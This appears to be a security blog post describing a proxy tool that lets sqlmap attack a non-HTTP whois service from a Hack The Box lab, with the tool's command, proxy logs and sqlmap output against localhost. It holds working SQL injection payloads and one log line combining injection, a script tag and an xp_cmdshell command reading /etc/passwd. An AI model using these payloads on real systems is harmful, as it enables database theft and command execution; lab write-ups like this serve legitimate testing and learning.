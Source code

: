 ```yaml
---
title: Introducing sqlmap into non-HTTP services.
published: true
---
```


## The problem:

Recently, I was introduced to an interesting problem. How to automate the SQL injection exploitation of non-HTTP service? Sometimes services like `whois` are using custom SQL databases, which is an ideal situation to produce unwanted problems. Because of that, the `whois` service is working on a non-retired HTB box, I can't do it very detailed, but you should be able to take advantage of the idea itself to create your custom proxies or just give a try with `shiny-garbonzo`. Let's start by diving into the information on how sqlmap works.

## sqlmap®:

You should already know that it can automate the SQL injection attack using requests to HTTP/S sites and some magic :) While passing an interesting HTTP request or URL to it, it can test all parameters, no matter if it is GET or POST or even HTTP header based injection point. But what to do when you know that your non-HTTP service is prone to SQL injection attack? You can exploit it manually which is recommended for learning sake or use a tool that is dedicated to that service being able to communicate with it and script your way into.

## Toolbelt:

- sqlmap 1.3.9#stable
- python 3.7

## Tool:

https://github.com/haqpl/shiny-garbanzo


## Working example:

Below you can see an example usage of `shiny-garbanzo` and the corresponding output of sqlmap, which identified and successfully exploited four different types of SQLi vulnerability in non-HTTP service.


{% include figure.html file="/assets/shiny-garbanzo.png" alt="/assets/shiny-garbanzo.png" max-width="500px" number="1" caption="SQL injection in non-HTTP service." %}

```
python3 shiny-garbanzo.py --host '127.0.0.1' --tool "whois" --port 1337 --arguments="-h IP SQLMAP"
[i] Starting server on 1337 PORT
[i] Start with this:
[+] sqlmap -u "127.0.0.1:1337" --data "cmd=" -p "cmd" --method POST
127.0.0.1 - - [23/Oct/2019 18:20:17] "POST / HTTP/1.1" 200 -
127.0.0.1 - - [23/Oct/2019 18:20:17] "POST /?lgda=9167%20AND%201%3D1%20UNION%20ALL%20SELECT%201%2CNULL%2C%27%3Cscript%3Ealert%28%22XSS%22%29%3C%2Fscript%3E%27%2Ctable_name%20FROM%20information_schema.tables%20WHERE%202%3E1--%2F%2A%2A%2F%3B%20EXEC%20xp_cmdshell%28%27cat%20..%2F..%2F..%2Fetc%2Fpasswd%27%29%23 HTTP/1.1" 200 -
127.0.0.1 - - [23/Oct/2019 18:20:17] "POST / HTTP/1.1" 200 -
...
```

```
sqlmap -u "http://127.0.0.1:1337" --data "cmd=" -p "cmd" --method POST --tables --flush-session
        ___
       __H__
 ___ ___[']_____ ___ ___  {1.3.10#stable}
|_ -| . [(]     | .'| . |
|___|_  [.]_|_|_|__,|  _|
      |_|V...       |_|   http://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 18:20:16 /2019-10-23/

[18:20:17] [WARNING] provided value for parameter 'cmd' is empty. Please, always use only valid parameter values so sqlmap could be able to run properly
[18:20:17] [INFO] flushing session file
[18:20:17] [INFO] testing connection to the target URL
[18:20:17] [WARNING] turning off pre-connect mechanism because of incompatible server ('BaseHTTP/0.6 Python/3.7.5rc1')
[18:20:17] [INFO] checking if the target is protected by some kind of WAF/IPS
[18:20:17] [INFO] testing if the target URL content is stable
[18:20:17] [INFO] target URL content is stable
[18:20:17] [INFO] heuristic (basic) test shows that POST parameter 'cmd' might be injectable (possible DBMS: 'MySQL')
[18:20:17] [INFO] heuristic (XSS) test shows that POST parameter 'cmd' might be vulnerable to cross-site scripting (XSS) attacks
[18:20:17] [INFO] testing for SQL injection on POST parameter 'cmd'
it looks like the back-end DBMS is 'MySQL'. Do you want to skip test payloads specific for other DBMSesfor the remaining tests, do you want to include all tests for 'MySQL' extending provided level (1) and [18:20:23] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[18:20:24] [INFO] testing 'Boolean-based blind - Parameter replace (original value)'
[18:20:24] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause (MySQL comment)'
[18:20:25] [WARNING] reflective value(s) found and filtering out
[18:20:26] [INFO] testing 'OR boolean-based blind - WHERE or HAVING clause (MySQL comment)'
[18:20:27] [INFO] POST parameter 'cmd' appears to be 'OR boolean-based blind - WHERE or HAVING clause (MySQL comment)' injectable 
...
[18:20:27] [INFO] POST parameter 'cmd' is 'MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)' injectable 
[18:20:27] [INFO] testing 'MySQL inline queries'
[18:20:27] [INFO] testing 'MySQL > 5.0.11 stacked queries (comment)'
[18:20:27] [INFO] testing 'MySQL > 5.0.11 stacked queries'
[18:20:27] [INFO] testing 'MySQL > 5.0.11 stacked queries (query SLEEP - comment)'
[18:20:27] [INFO] testing 'MySQL > 5.0.11 stacked queries (query SLEEP)'
[18:20:28] [INFO] testing 'MySQL < 5.0.12 stacked queries (heavy query - comment)'
[18:20:28] [INFO] testing 'MySQL < 5.0.12 stacked queries (heavy query)'
[18:20:28] [INFO] testing 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)'
[18:20:38] [INFO] POST parameter 'cmd' appears to be 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)' injectable 
[18:20:38] [INFO] testing 'Generic UNION query (NULL) - 1 to 20 columns'
[18:20:38] [INFO] testing 'MySQL UNION query (NULL) - 1 to 20 columns'
[18:20:38] [INFO] automatically extending ranges for UNION query injection technique tests as there is at least one other (potential) technique found
[18:20:38] [INFO] 'ORDER BY' technique appears to be usable. This should reduce the time needed to find the right number of query columns. Automatically extending the range for current UNION query injection technique test
[18:20:38] [INFO] target URL appears to have 2 columns in query
[18:20:38] [INFO] POST parameter 'cmd' is 'MySQL UNION query (NULL) - 1 to 20 columns' injectable
[18:20:38] [WARNING] in OR boolean-based injection cases, please consider usage of switch '--drop-set-cookie' if you experience any problems during data retrieval
POST parameter 'cmd' is vulnerable. Do you want to keep testing the others (if any)? [y/N] sqlmap identified the following injection point(s) with a total of 88 HTTP(s) requests:
---
Parameter: cmd (POST)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause (MySQL comment)
    Payload: cmd=-5703') OR 4258=4258#

    Type: error-based
    Title: MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: cmd=') AND (SELECT 9790 FROM(SELECT COUNT(*),CONCAT(0x716a7a6271,(SELECT (ELT(9790=9790,1))),0x71627a6b71,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)-- mPGW

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: cmd=') AND (SELECT 9669 FROM (SELECT(SLEEP(5)))ocLO)-- pzpA

    Type: UNION query
    Title: MySQL UNION query (NULL) - 2 columns
    Payload: cmd=') UNION ALL SELECT CONCAT(0x716a7a6271,0x736e52496f5a646e56714f70556150784b766b6648696a45746d6869424875725a77684354704b70,0x71627a6b71),NULL#
---
[18:20:45] [INFO] the back-end DBMS is MySQL
back-end DBMS: MySQL >= 5.0
[18:20:45] [INFO] fetching database names
[18:20:45] [INFO] fetching tables for databases: 'information_schema, whois'
Database: informati\non_schema
[1 table]
...

Database: whois
[1 table]
...

Database: information_schema
[77 tables]
...

[18:20:45] [INFO] fetched data logged to text files under './output/127.0.0.1'

[*] ending @ 18:20:45 /2019-10-23/

```

## Credits:

[https://twitter.com/kolokokop](@kolokokop), he did it the same way ;)


If you found that idea interesting and have a non-HTTP service in mind which could be tested, please contact me or just comment the post.
